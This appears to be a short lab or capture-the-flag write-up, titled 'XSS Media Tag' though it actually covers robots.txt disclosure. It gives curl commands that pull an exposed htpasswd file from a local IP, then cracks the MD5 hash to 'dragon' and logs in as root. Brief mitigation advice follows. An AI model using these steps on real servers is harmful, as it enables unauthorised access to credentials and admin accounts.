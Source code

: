 # XSS Media Tag

A robots.txt file specifies which parts of a website are accessible to a web crawler. They are not a security mechanism but a way for search engines to index your website.

## Table of Contents

- [Steps](#Steps)
- [Vulnerabilities](#Vulnerabilities)
- [Ways to secure](#Ways to secure)

### Steps
* Open terminal
* Run
```bash
	curl http://192.168.0.108/robots.txt
        
	curl http://192.168.0.108/whatever/htpasswd #Displays "root:8621ffdbc5698829397d97767ac13db3"
```
* <a href="https://hashes.com/en/decrypt/hash">MD5 decrypt</a> the value we found
	8621ffdbc5698829397d97767ac13db3 -> dragon

* Sign in admin using the credentials
	root      [username]
	dragon    [password]

#### Vulnerabilities
An attacker can use a robot.txt file to navigate your website and see sections of your server.

##### Ways to secure
It's best not to declare private directories in robots.txt file since most crawlers will ignore the file and scan the entire directory.
